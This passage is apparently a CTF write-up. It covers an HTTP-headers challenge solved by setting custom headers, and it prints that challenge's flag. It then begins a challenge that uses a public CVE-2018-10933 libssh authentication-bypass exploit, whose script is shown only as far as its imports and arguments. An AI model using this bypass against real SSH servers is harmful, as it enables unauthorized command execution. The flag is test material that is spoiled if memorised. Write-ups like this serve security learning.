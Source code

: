 
![headers6](https://hackmd.io/_uploads/SJsz_xH6a.png)

and i go this result:


![headers7](https://hackmd.io/_uploads/rkN_OgHa6.png)

we need to add here the security header called Upgrade-Insecure-Requests: 10 since 10 was in the string it was like a hint.

![headers8](https://hackmd.io/_uploads/BkXjteS6a.png)

and i got this result : 

![headers9](https://hackmd.io/_uploads/B12RKlrTp.png)

now we add the header Downlink with value 999999999

![headersdownlink](https://hackmd.io/_uploads/SyGvU-BTa.png)





we got the result:

![headers55](https://hackmd.io/_uploads/B1KlBWSTa.png)

flag : `VishwaCTF{s3cret_sit3_http_head3rs_r_c0o1}`


i reallly liked this challenge about headers because i learned a lot


-----
----- 
# CHALLENGE 5 : Save The City

*Description: The RAW Has Got An Input That ISIS Has Planted a Bomb Somewhere In The Pune! Fortunetly, RAW Has Infiltratrated The Internet Activity of One Suspect And They Found This Link. You Have To Find The Location ASAP!*


the first thing appears when i run the command `nc` is the ssh banner then after some time its says bye bye then closes

![savecity1](https://hackmd.io/_uploads/S1tUneHpp.png)


here i googled this `SSH-2.0-libssh_0.8.1` and found an exploit of this version here : https://github.com/blacknbunny/CVE-2018-10933



```
#!/usr/bin/env python3

# original exploit PoC reference https://github.com/blacknbunny/CVE-2018-10933
import paramiko
import socket
import argparse
import logging
import sys

logging.basicConfig(stream=sys.stdout, level=logging.INFO)

parser = argparse.ArgumentParser(description="libSSH Authentication Bypass")
parser.add_argument('--host', help='Host')
parser.add_argument('-p', '--port', help='libSSH port', default=22)
parser.add_argument('-c', '--command', help='Command to execute', default='id')
```